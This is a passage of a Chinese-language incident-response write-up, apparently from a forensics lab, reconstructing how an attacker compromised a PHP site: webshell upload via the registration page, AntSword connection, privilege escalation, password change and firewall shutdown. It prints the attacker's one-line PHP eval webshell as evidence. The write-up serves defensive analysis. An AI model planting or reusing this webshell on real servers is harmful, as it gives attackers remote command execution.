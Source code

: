 emmm 不支持外连，又得去用难用的数据库管理工具了鹅

![](image-181-1024x569.png)

也是查到了这个密码---Network@2020

![](image-183-1024x433.png)

emmm 这个蚁剑的连接密码还怪像的，但是还没弄清这个密码是哪来的，根据题目描述是改的，但分析了半天 mysql 日志，也没有发现外连的情况啊（本身就设置的不能外连），而且密码还是强口令

5.再仔细验证一遍，看看有没有留什么维权后门，没有的话就按照时间线撰写报告吧

之前看 history 还少了一个东西

![](image-185.png)

现在看一下这个文件

![](image-186.png)

![](image-187.png)

然后后续就是做一下看看有没有维权的操作，暂时没有发现，至此全部完毕！！！

1.攻击者 192.168.20.1 通过/index.php?user-app-register 上传了一个 webshell（感觉是本来有个弱口令的，然后登进去了，这个没有 pacp 包，我也只是猜测，然后这个木马和普通木马还不一样，是一个什么什么 PHP 命名空间的木马，把前面那个删了再连还连不上。。。）

```
<?php namespace t;@eval($_POST['Network2020']);?>
```

2.通过蚁剑连接之后在上传 version2.php 提权  
3.修改了后台的密码  
4.提权之后关闭了防火墙，并且删除提权文件 version2.php 和 flag1 且修改了 alinotify.php 文件等等

![](2.png)

碎觉！！！